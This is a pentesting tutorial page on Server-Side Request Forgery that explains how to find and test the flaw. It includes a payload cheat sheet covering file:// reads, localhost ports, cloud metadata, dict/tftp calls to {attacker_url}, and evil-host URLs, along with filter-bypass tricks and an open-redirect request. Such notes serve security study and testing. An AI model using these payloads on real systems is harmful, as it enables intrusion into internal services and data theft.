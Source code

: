 # SSRF

**SSRF** stands for **Server-Side Request Forgery**. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

There are **two types** of SSRF vulnerability; the first is a **regular SSRF** where **data is returned to the attacker's screen**. The second is a **Blind SSRF** vulnerability where an SSRF occurs, but **no information is returned to the attacker's screen**.

## Finding an SSRF

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:

* When a **full URL** is used in a parameter in the address bar:

<figure><img src="../../../../../.gitbook/assets/956e1914b116cbc9e564e3bb3d9ab50a.png" alt=""><figcaption></figcaption></figure>

*   A **hidden field** in a form:\


    <figure><img src="../../../../../.gitbook/assets/237696fc8e405d25d4fc7bbcc67919f0.png" alt=""><figcaption></figcaption></figure>
*   A **partial URL** such as just the hostname:\


    <figure><img src="../../../../../.gitbook/assets/f3c387849e91a4f15a7b59ff7324be75 (1).png" alt=""><figcaption></figcaption></figure>
*   Or **perhaps only the path of the URL**:\


    <figure><img src="../../../../../.gitbook/assets/3fd583950617f7a3713a107fcb4cfa49.png" alt=""><figcaption></figcaption></figure>

If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as [https://webhook.site/](https://webhook.site/).



## Testing SSRF

Testers need to find input vectors and fields that could be used for publishing or importing data from a URL (e.g. `GET` and `POST` parameters).

To do this, we have to **navigate through the website** with the **Burp Proxy** activeted, and then we have to analyze the request to **find a possibile vulnerable parameter**.&#x20;

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

With `http://some.website/index.php?url=https://someother.website/index.php`, and `url` being the vulnerable parameter, the following basic payloads can help a tester fetch content of files, scan ports, access filtered resources and so on.

```
file://PATH/TO/FILE
http://127.0.0.1:80/admin
http://127.0.0.1:80
http://127.0.0.1:22
ldap://127.0.0.1:389/%0astats%0aquit
dict://{attacker_url}:11111/
sftp://{attacker_url}:11111/
tftp://{attacker_url}:12346/TESTUDPPACKET
```

To scan for a specific range of private IP addresses (other than `localhost`), Use burp suite intruder that can fetch all of IP addresses in the internal network that is targeted.



## Bypassing Filter

In order to conduct SSRF attacks properly, there may be use cases where filters need to be bypassed

<details>

<summary>Blacklist input filter</summary>

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can bypass the filter using various techniques :

* Using an alternative IP representation such as :

```
http://127.1/admin
http://0/admin
http:@0/admin
http://0.0.0.0:80/admin
http://[::]:80/admin
http://[0000::1]:80/admin
http://2130706433/admin # Decimal version of localhost
http://0x7f000001/admin # Hexadecimal version of localhost
http://169.254.169.254/admin # amazon cloud
```

* Obfuscating string using URL encoded, even double URL encoded sometimes. Or sometimes the alterantive IP works but the control works with the path /admin. In this case we can encoding only the path (ex `http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65`)
* Registered your own domain name that resolved the `localhost` IP address.
* Swithing from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.

</details>

<details>

<summary>Whilist input filter</summary>

Some applications only allow inputs that match, a whitelist of permitted values. The filter may look for a match at the beginning of the input, for example the URL must begin with http://expected-host, or contained within in it. You may be able to bypass this filter by exploiting inconsistencies in URL parsing.

The URL specification contains a number of features that are likely to be overlooked when URLs implement ad-hoc parsing and validation using this method:

*   You can embed credentials in a URL before the hostname, using the `@` character. For example:

    `https://expected-host:fakepassword@evil-host`
*   You can use the `#` character to indicate a URL fragment. For example:

    `https://evil-host#expected-host`
*   You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:

    `https://expected-host.evil-host`
* You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
* You can use combinations of these techniques together.

</details>

<details>

<summary>Open Redirection</summary>

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect. \
An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address.

For example, the application contains an open redirection vulnerability in which the following URL:

`/product/nextProduct?currentProductId=6&path=http://evil-user.net`

returns a redirection to:

`http://evil-user.net`

You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows:

{% code overflow="wrap" %}
```bash
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
{% endcode %}

This SSRF exploit works because the application first validates that the supplied `stockAPI` URL is on an allowed domain, which it is. The application then requests the supplied URL, which triggers the open redirection. It follows the redirection, and makes a request to the internal URL of the attacker's choosing.

</details>





## Utils ex.

### \&x= to ignore

If we can insert other domain into a parameter but there is the next part of the URL that we have to ignore we can use  `&x=` at the start of ignore part

```bash
# start URL
https://website.thm/item/2?server=api

# the server par replaces the SUBDOMAIN of the URL. 
# We can add in this par all other URL for the request and then tell to request to 
# ignore the next part with &x= symbol
# Requesto to send
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=

# effective request forgery which will be send 
https://server.website.thm/flag?id=9&x=.website.thm/api/item?id=2
```







## Resources

{% embed url="https://www.thehacker.recipes/web/inputs/ssrf/" %}
